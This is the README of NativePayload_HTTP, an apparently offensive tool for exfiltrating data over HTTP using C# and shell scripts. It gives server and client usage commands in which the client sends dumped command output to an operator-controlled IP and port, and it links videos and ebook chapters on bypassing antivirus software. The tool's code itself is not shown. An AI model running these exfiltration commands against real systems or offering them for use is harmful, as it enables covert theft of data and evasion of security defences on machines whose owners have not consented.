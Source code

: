 
# NativePayload_HTTP
Data Exfiltration via HTTP Traffic (C# and Shell Script)

this code has two parts: 1.Server-Side and 2.Client-Side

Note:in server-side this code tested by Kali linux only!

Video [1] , Shell Script (server/client side) (linux only) : https://www.youtube.com/watch?v=vjhubCYFP4c

Video [2] , C# and Script (server/client side) (Windows/linux) : https://www.youtube.com/watch?v=7MCOko-qy0c


client-side tested by kali 2017-18 and ubuntu 14.04 also windows7 and 2012

![](https://github.com/DamonMohammadbagher/NativePayload_HTTP/blob/master/NativePayload_HTTP.png)

# 1.Server-Side (linux only):
./NativePayload_HTTP.sh -exfilwebserver

# 2.Client-Side (linux):
./NativePayload_HTTP.sh  -dumpcmd  [ServerIPv4]  [Port]  [Internal-delay]

Example: ./NativePayload_HTTP.sh  -dumpcmd   192.168.56.1  80  0.4

# 2.Client-Side (windows):
NativePayload_HTTP.exe  -dumpcmd  [ServerIPv4]  [Port] 

Example: NativePayload_HTTP.exe  -dumpcmd  192.168.56.1 80 

# Note: for more information and help (step by step) , Please read these PDF files:

NativePayload_HTTP (Part1): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part1.pdf

NativePayload_HTTP (Part2): https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH12/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2012-Part2.pdf
